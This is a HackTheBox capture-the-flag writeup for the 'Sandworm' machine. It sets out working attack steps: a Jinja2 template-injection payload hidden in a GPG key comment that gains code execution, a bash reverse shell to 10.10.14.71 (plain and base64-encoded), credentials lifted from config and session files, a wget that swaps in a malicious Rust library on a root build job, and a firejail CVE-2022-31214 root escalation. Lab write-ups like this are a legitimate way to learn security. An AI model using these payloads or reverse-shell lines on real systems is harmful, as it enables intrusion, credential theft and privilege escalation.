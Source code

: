 ```yaml
---
layout: post
title:  "Writeup of Sandworm (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox sandworm gpg rce firejail
---
```


# Discovery

Domain found: `ssa.htb`

No subdomains found with `subdomains-top1million-20000.txt` on both http:// and https://.

http://ssa.htb redirects to https://ssa.htb.

It's a Flask app.

**Interesting dirs:**

```
/admin
/login
```

There's an email/username: `atlas@ssa.htb`.

# /contact

**Encrypting a message to send to `/contact`:**

`gpg --import key.pub`

`echo x | gpg --encrypt --recipient "atlas@ssa.htb" --armor`

**Script for testing XSS, etc:**

**./[generate.sh](generate.sh)** \<comment>

```bash
#!/bin/bash
cat >foo <<EOF
     %echo Generating a basic OpenPGP key
     Key-Type: DSA
     Key-Length: 1024
     Subkey-Type: ELG-E
     Subkey-Length: 1024
     Name-Real: template
     Name-Comment: ${1}
     Name-Email: template@10.10.14.71
     Expire-Date: 0
     %commit
     %echo done
EOF

gpg --batch --generate-key foo
gpg -k
gpg --output template.key --armor --export template

rm message.clear message.asc message.unsigned.asc
if [ $# -eq 1 ] 
then
    rm message
    echo "Something" > message
fi
gpg --encrypt --recipient "atlas@ssa.htb" -u "template@10.10.14.71" --armor --output message.unsigned.asc message
gpg --encrypt --recipient "atlas@ssa.htb" -u "template@10.10.14.71" --armor --output message.asc --sign message
gpg --armor --output message.clear -u "template@10.10.14.71" --clear-sign message

gpg --delete-secret-keys template
gpg --delete-keys template
```

# /process

Validing a message with `POST /process`:

It needs the **--clear-sign** formatting.

```
Signature is valid! [GNUPG:] NEWSIG gpg: Signature made
```

# SSTI in comment

**XSS** and **SSTI** in the message content didn't work. This is a **Flask** app, so let's try signing a message with this as the comment:

```
{{ config }}
```

`gpg --full-generate-key`

`gpg --armor --output message.clear -u "template1@10.10.14.71" --clear-sign message`

Then upload both the public key and message.clear to `/process`:

**It worked!** Interesting fields:

```json
"DEBUG": False,
"SECRET_KEY": "91668c1bc67132e3dcfb5b1a3e0c5c21",
"SQLALCHEMY_DATABASE_URI": "mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA"
```

**Let's try RCE:**

`./generate.sh "{{ ''.__class__.mro()[1].__subclasses__()[439]('id',shell=True,stdout=-1).communicate()[0].strip() }}"`

```
b'uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)'
```

# Reverse shell as atlas

`bash -i >& /dev/tcp/10.10.14.71/9001 0>&1`

`./generate.sh "{{ ''.__class__.mro()[1].__subclasses__()[439]('echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43MS85MDAxIDA+JjE= | base64 -d | bash',shell=True,stdout=-1).communicate()[0].strip() }}"`

**~/.config/httpie/sessions/localhost_5000:**

```json

    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
```

# SSH - silentobserver

`silentobserver:quietLiketheWind22` **works for SSH!**

`user.txt: <redacted>`

```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

`mysql -u atlas -p` *(GarlicAndOnionZ42)*

```
Odin:pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f
silentobserver:pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d
```

**Interesting activity on pspy:**

```
2023/06/18 15:16:11 CMD: UID=0     PID=273129 | /bin/bash /root/Cleanup/clean_c.sh 
2023/06/18 15:16:11 CMD: UID=0     PID=273130 | /bin/rm -r /opt/crates 

2023/06/18 15:18:01 CMD: UID=0     PID=273141 | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline 

2023/06/18 15:18:11 CMD: UID=0     PID=273161 | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet 
```

`/opt/tipnet/src/main.rs`:

```rust
let url = "mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream"
```

**tipnet:4The_Greater_GoodJ4A**

# Firejail

```
1.7M -rwsr-x--- 1 root jailer 1.7M Nov 29  2022 /usr/local/bin/firejail
```

[CVE-2022-31214](https://www.openwall.com/lists/oss-security/2022/06/08/10) - privesc by SUID firejail.

To be able to execute firejail, we need a shell as someone in **jailer**.

`/etc/group`:

```
jailer:x:1002:atlas
```

By going to `/opt/crates/logger/src`, executing `rm lib.rs && wget http://10.10.14.71:8001/lib.rs`, then waiting and running `/opt/tipnet/target/debug/tipnet` - we get a reverse shell as **atlas**, unjailed.

```
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
```

`firejail --version`

```
firejail version 0.9.68
```

**It should be vulnerable!**

After executing the [PoC](https://www.openwall.com/lists/oss-security/2022/06/08/10/1), we get a message:

```
You can now run 'firejail --join=4410' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

Running `firejail --join=4410` and `su -` in a second shell gives us root.

`root.txt: <redacted>`
